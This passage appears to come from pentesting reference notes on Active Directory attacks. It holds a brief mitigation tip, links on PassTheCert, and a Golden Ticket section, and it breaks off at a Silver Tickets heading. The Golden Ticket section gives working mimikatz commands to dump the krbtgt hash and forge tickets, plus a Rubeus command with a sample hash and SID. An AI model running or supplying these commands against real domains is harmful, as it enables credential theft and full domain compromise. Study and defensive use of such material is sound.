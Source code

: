 {% endcode %}
{% endtab %}

{% tab title="Mitigation" %}
Let's talk blue team and how to mitigate these types of attacks.&#x20;

* Don't let your domain admins log onto anything except the domain controller - This is something so simple however a lot of domain admins still log onto low-level computers leaving tickets around that we can use to attack and move laterally with.
{% endtab %}
{% endtabs %}

### PassTheCert

[https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html)

[https://github.com/AlmondOffSec/PassTheCert/tree/main/Python](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python)

### Golden Tickets

{% hint style="info" %}
In order to craft a golden ticket, testers need to find the `krbtgt`'s RC4 key (i.e. NT hash) or AES key (128 or 256 bits). In most cases, this can only be achieved with domain admin privileges through a [DCSync attack](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync). A Golden Ticket can later be used with Pass-the-ticket to access any resource within the AD domain.
{% endhint %}

Golden ticket has access to any Kerberos service.

{% code overflow="wrap" fullWidth="true" %}
```bash
# This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.
mimikatz# lsadump::lsa /inject /name:krbtgt
mimikatz# kerberos::golden /user:Administrator /domain:dom.com /sid:$DOMAIN_SID /krbtgt:$NTLM_HASH /ticket:golden.kirbi (/id:$GROUP_ID)

# This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.

# We could use the ticket to access other machines
misc::cmd
dir \\DESKTOP-1\C$

################ RUBEUS
Rubeus.exe golden /rc4:f9f3d430a22055c9ffd6190032eb82ab /user:Administrator /domain:s4vicorp.local /sid:S-1-5-21-4234973561-2312662453-3533273321 /outfile:rubeus-ticket
```
{% endcode %}

### Silver Tickets
